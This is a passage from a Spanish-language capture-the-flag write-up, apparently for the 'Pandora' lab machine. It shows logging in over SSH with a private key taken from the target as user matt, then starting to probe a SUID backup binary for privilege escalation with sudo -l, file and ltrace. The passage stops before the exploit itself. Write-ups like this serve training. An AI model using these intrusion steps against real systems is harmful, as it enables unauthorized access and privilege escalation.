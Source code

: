 ```bash
nvim id_rsa
chmod 600 id_rsa
```
---
Con la clave privada, nos conectamos por SSH nuevamente como `matt`, ahora sin necesidad de proporcionar una contraseña.

```bash
ssh -i id_rsa matt@10.10.11.136
_______________________________________________________________________
matt@pandora:~$ 
```
---
Establecemos el entorno de terminal adecuado con el siguiente comando

```bash
export TERM=xterm
```
---
Probamos si podemos ejecutar `sudo -l` para ver si ya no tenemos problemas.

```bash
matt@pandora:/$ sudo -l
_______________________________________________________________________
[sudo] password for matt: 
```
---
Dado que ya no tenemos restricciones. Continuamos la escalada de privilegios. Recordemos que el binario `pandora_backup` tiene el bit SUID activado y está intentando crear un archivo en `/root/.backup/` sin éxito debido a permisos de directorio. Podemos intentar explotar esta situación para obtener acceso root.

```bash
matt@pandora:/$ /usr/bin/pandora_backup
_______________________________________________________________________
tar: Removing leading `/' from member names
/var/www/pandora/pandora_console/AUTHORS
tar: Removing leading `/' from hard link targets
/var/www/pandora/pandora_console/COPYING
/var/www/pandora/pandora_console/DB_Dockerfile
/var/www/pandora/pandora_console/DEBIAN/
/var/www/pandora/pandora_console/DEBIAN/md5sums
/var/www/pandora/pandora_console/DEBIAN/conffiles
/var/www/pandora/pandora_console/DEBIAN/control
/var/www/pandora/pandora_console/DEBIAN/make_deb_package.sh
/var/www/pandora/pandora_console/DEBIAN/postinst
/var/www/pandora/pandora_console/Dockerfile
```
---
Este comando genera 5492 líneas, y lo que indica que está tratando de empaquetar una gran cantidad de archivos usando `tar`. Para entender mejor este binario, usamos el comando `file`.

```bash
matt@pandora:/$ file /usr/bin/pandora_backup
_______________________________________________________________________
/usr/bin/pandora_backup: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=7174c3b04737ad11254839c20c8dab66fce55af8, for GNU/Linux 3.2.0, not stripped
```
---
Vemos que es un binario compilado, lo que significa que está precompilado y no podemos simplemente ver su código fuente. Para obtener más información sobre lo que hace internamente, utilizamos `ltrace` para rastrear las llamadas a funciones de la librería.
